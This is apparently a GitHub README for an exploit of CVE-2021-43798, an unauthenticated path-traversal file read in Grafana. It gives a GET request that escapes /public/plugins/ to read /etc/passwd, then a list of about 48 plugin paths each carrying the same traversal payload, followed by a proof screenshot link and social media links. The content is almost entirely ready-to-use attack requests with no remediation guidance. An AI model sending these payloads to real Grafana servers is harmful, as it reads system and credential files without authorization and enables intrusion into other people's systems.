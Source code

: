# grafana-unauth-file-read : CVE-2021-43798

Unauthorized reading of files in Grafana (0day)

It looks like the new 0day LFI in Grafana exists thanks to the grafana-clock-panel plugin. It is enough to send a GET request of the form:

```GET /public/plugins/grafana-clock-panel/../../../../../../../etc/passwd```

# List of plugins

```/public/plugins/alertGroups/../../../../../../../../etc/passwd
/public/plugins/alertlist/../../../../../../../../etc/passwd
/public/plugins/alertmanager/../../../../../../../../etc/passwd
/public/plugins/annolist/../../../../../../../../etc/passwd
/public/plugins/barchart/../../../../../../../../etc/passwd
/public/plugins/bargauge/../../../../../../../../etc/passwd
/public/plugins/canvas/../../../../../../../../etc/passwd
/public/plugins/cloudwatch/../../../../../../../../etc/passwd
/public/plugins/dashboard/../../../../../../../../etc/passwd
/public/plugins/dashlist/../../../../../../../../etc/passwd
/public/plugins/debug/../../../../../../../../etc/passwd
/public/plugins/elasticsearch/../../../../../../../../etc/passwd
/public/plugins/gauge/../../../../../../../../etc/passwd
/public/plugins/geomap/../../../../../../../../etc/passwd
/public/plugins/gettingstarted/../../../../../../../../etc/passwd
/public/plugins/grafana-azure-monitor-datasource/../../../../../../../../etc/passwd
/public/plugins/grafana/../../../../../../../../etc/passwd
/public/plugins/graph/../../../../../../../../etc/passwd
/public/plugins/graphite/../../../../../../../../etc/passwd
/public/plugins/heatmap/../../../../../../../../etc/passwd
/public/plugins/histogram/../../../../../../../../etc/passwd
/public/plugins/influxdb/../../../../../../../../etc/passwd
/public/plugins/jaeger/../../../../../../../../etc/passwd
/public/plugins/live/../../../../../../../../etc/passwd
/public/plugins/logs/../../../../../../../../etc/passwd
/public/plugins/loki/../../../../../../../../etc/passwd
/public/plugins/mixed/../../../../../../../../etc/passwd
/public/plugins/mssql/../../../../../../../../etc/passwd
/public/plugins/mysql/../../../../../../../../etc/passwd
/public/plugins/news/../../../../../../../../etc/passwd
/public/plugins/nodeGraph/../../../../../../../../etc/passwd
/public/plugins/opentsdb/../../../../../../../../etc/passwd
/public/plugins/piechart/../../../../../../../../etc/passwd
/public/plugins/pluginlist/../../../../../../../../etc/passwd
/public/plugins/postgres/../../../../../../../../etc/passwd
/public/plugins/prometheus/../../../../../../../../etc/passwd
/public/plugins/stat/../../../../../../../../etc/passwd
/public/plugins/state-timeline/../../../../../../../../etc/passwd
/public/plugins/status-history/../../../../../../../../etc/passwd
/public/plugins/table-old/../../../../../../../../etc/passwd
/public/plugins/table/../../../../../../../../etc/passwd
/public/plugins/tempo/../../../../../../../../etc/passwd
/public/plugins/testdata/../../../../../../../../etc/passwd
/public/plugins/text/../../../../../../../../etc/passwd
/public/plugins/timeseries/../../../../../../../../etc/passwd
/public/plugins/welcome/../../../../../../../../etc/passwd
/public/plugins/xychart/../../../../../../../../etc/passwd
/public/plugins/zipkin/../../../../../../../../etc/passwd
```

### Proof
![PoC](https://raw.githubusercontent.com/Vulnmachines/grafana-unauth-file-read/main/Grafana.PNG)

#### Follow us [Vulnmachines](https://www.twitter.com/vulnmachines)
#### [YouTube](https://www.youtube.com/c/vulnmachines)
#### [Twitter](https://www.twitter.com/vulnmachines)
#### [Facebook](https://www.facebook.com/vulnmachines)
#### [LinkedIn](https://www.linkedin.com/company/vulnmachines)

